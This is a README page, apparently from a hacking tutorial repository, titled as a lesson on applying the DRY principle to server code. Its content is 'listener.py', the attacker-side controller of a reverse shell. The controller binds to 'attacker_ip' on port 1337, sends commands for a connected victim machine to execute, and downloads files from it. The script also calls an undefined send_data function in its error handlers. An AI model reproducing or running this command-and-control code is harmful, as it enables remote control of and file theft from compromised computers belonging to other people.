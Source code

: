 <h2 align="center">Maintaining DRY principle at Server Side</h2>
<p align="center"><img width="350" height="350" src="./src/banner_cnph.gif"></p>

Make sure the server code is also following the DRY Principle

- - - - - - - - - - - - - - - - - - - - - -
> [listener.py](listener.py)
```python
import socket
import subprocess

listener = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

listener.bind(("attacker_ip", 1337))

listener.listen()

print("Server has started")

connection, address = listener.accept()

def recv_data():
    original_size = connection.recv(2048).decode("utf-8")
    original_size = int(original_size)
    
    data = connection.recv(2048)
    while len(data) != original_size:
        data = data + connection.recv(2048)
    return data

while True:
	# Add try block
	try: 
		cmd = input("enter a command: ")
		
		if cmd == "quit":
			connection.send(b"quit")
			connection.close()
			break

		elif cmd[:2] == "cd":
			connection.send(bytes(cmd, "utf-8"))
			recv = recv_data()
			print(recv.decode("utf-8"))
			continue

		elif cmd[:8] == "download":
			connection.send(bytes(cmd, "utf-8"))

			file_output = recv_data()
			if file_output == b"No file found":
				print(file_output.decode("utf-8"))
				continue

			with open(f'{cmd[9:]}', 'wb') as write_data:
				write_data.write(file_output)
				write_data.close()
			continue 
			
		connection.send(bytes(cmd, "utf-8"))
		
		output = recv_data()
		print(output.decode("utf-8"))
	
	# Add except block to handle the exceptions
	except FileNotFoundError:
		print("File Not Found")
		send_data(b"Error")
	except subprocess.CalledProcessError:
		send_data(b"Wrong command")

print("Server has stopped")
```